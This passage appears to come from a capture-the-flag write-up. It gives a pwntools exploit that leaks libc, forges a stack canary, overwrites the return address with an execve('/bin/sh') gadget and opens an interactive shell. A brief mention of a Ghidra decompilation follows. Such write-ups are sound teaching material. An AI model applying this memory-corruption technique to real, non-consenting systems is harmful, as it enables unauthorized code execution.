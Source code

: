 ```python
libc_base = leak - libc.symbols.__libc_start_main - 0xE7

p.recvuntil(b"Are you sure you overflowed it right? Try again.")

payload = b"A" * 40                                                       # padding until canary position
payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))    # canary calculation
payload += b"A" * 8                                                       # padding until rip overwrite
payload += p64(libc_base + 0x10a2fc)                                      # gadget execve("/bin/sh")

p.sendline(payload)

p.interactive()
```

## Bonus Content

This is what it looks like if we open the binary with ghidra and see the decompiled code.

![Ghidra Code](ghidra.png)
